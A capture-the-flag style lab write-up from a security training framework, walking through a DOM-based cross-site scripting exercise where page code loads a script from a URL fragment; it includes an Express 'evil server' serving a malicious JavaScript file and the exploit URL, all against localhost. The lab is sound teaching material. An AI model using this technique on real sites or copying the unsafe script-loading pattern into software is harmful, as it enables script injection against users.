





# KBID 3 - Cross Site Scripting \(DOM-2\)

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```


Now that the app is running let's go hacking!


## Reconnaissance

#### Step 1

The application shows no input field or anything else we can interact with. Let's inspect the source code.



Inspecting the source code of the application.



```javascript
function loadWelcomeMessage() {
  setTimeout(function () {
    endpoint = location.hash.slice(5);
    var script = document.createElement("script");
    if (endpoint) {
      script.src = endpoint + "/js/welcome.js";
    } else {
      script.src = "/js/welcome.js";
    }
    document.head.appendChild(script);
  }, 2000);
}
```

We notice the application imports javascript files into the application using this function.

```javascript
endpoint = location.hash.slice(5);
```

Declaring endpoint variable which takes the url, whatever is after the hash(#) and using slice to remove the first 4 characters after that. If the endpoint exists it will load the js file from there.



## Exploitation

We can start building our malicious server and server the application with our malicious js file.

```javascript
const express = require("express");
const app = express();
const path = require("path");

app.get("/static/js/welcome.js", function (req, res) {
  res.sendFile("welcome.js", {
    root: path.join(__dirname + "/static/js/"),
  });
});

const port = process.env.PORT || 1337;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

Save the snippet above to &gt; evil_server.js and run the commands below to install some dependencies.
Of course you can also run your app on whatever service you want it does not have to be nodeJs express.

```text
$ npm install express
```

Now we need to create our malicous js file, save the following snippet code into /static/js/welcome.js

```javascript
document.getElementsByClassName("panel-body")[0].innerText = "pwned!!!";
```

We are ready to start our server:

```text
$ node evil_server.js
```



Now we can serve our malicious js file to the application

```text
http://localhost:5000/#xxxxhttp://localhost:1337
```



## Additional sources

Please refer to the OWASP testing guide for a full complete description about cross site scripting!


